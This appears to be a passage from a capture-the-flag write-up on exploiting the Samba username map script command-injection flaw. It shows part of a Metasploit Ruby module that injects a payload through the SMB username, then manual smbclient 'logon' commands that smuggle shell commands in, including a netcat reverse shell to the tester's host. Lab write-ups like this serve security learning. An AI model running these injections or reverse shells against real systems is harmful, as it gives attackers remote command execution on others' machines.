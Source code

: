 ```ruby
                     [ "Automatic", { } ]
                 ],
             'DefaultTarget'  => 0,
             'DisclosureDate' => 'May 14 2007'))
 
         register_options(
             [
                 Opt::RPORT(139)
             ], self.class)
     end
 
 
     def exploit
 
         connect
 
         # lol?
         username = "/=`nohup " + payload.encoded + "`"
         begin
             simple.client.negotiate(false)
             simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
         rescue ::Timeout::Error, XCEPT::LoginError
             # nothing, it either worked or it didn't ;)
         end
 
         handler
     end
 
 end
```

The payload location in the code is:
```
username = "/=`nohup " + payload.encoded + "`"
```

To test it, we can send a ping to our machine. First, open port 443 to listen with Netcat:

```bash
nc -lvnp 443
```

Then execute:

```bash
logon "/=`nohup ping -c 1 10.10.10.3 | nc 10.10.14.3 443`"
```

![[manually_exploitation_ping.png]]

We receive a ping in our terminal, so let’s execute the exploit manually by modifying the payload to open a reverse shell:

```bash
logon "/=`nohup nc -e /bin/bash 10.10.14.3 443`"
```
